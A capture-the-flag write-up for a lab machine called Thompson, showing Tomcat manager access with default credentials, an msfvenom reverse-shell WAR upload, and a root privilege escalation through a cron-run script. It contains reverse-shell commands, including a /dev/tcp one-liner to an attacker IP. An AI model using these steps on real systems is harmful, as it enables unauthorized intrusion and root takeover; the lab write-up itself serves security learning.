 # Thompson

### Thompson
Nmap scan shows ports 22,8009 and 8080 open:

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
    |   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
    |_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    8080/tcp open  http    Apache Tomcat 8.5.5
    |_http-title: Apache Tomcat/8.5.5
    |_http-favicon: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

I can access `http://10.10.148.204:8080/manager/html?` with default credentials `tomcat:s3cret`. This is a remote management application for the web server, and if someone can access it, it can upload any file on the server.
<br />
What I need to do is to upload a war file. A war file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files and so on... all the stuff that a tomcat server needs. To create a reverse shell in war format I use msfvenom: <br />
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=attacker_IP LPORT=attacker_PORT -f war > shell.war`. After uploading this shell, there should be another tuple in the table of paths: <br />
![image](https://github.com/user-attachments/assets/20d4d19f-b3af-4b5f-b2bf-d018e89790f3)<br />
Just click on it to spawn a reverse shell and get the user flag. Now for privesc: if I run `cat /etc/crontab`: <br />
![image](https://github.com/user-attachments/assets/06c630a3-d009-4c60-9f37-d262f58ec253)<br />
Every minute, root executes the `id` command and pipes the output to a text file: <br />
![image](https://github.com/user-attachments/assets/5358f7db-ada5-49bf-afb5-2350102e42fd)<br />
Since I have write access to it, I can easily create a reverse root shell with the command `echo "sh -i >& /dev/tcp/10.11.85.53/9001 0>&1" > id.sh`. Now just wait for the reverse shell and get the root flag. 



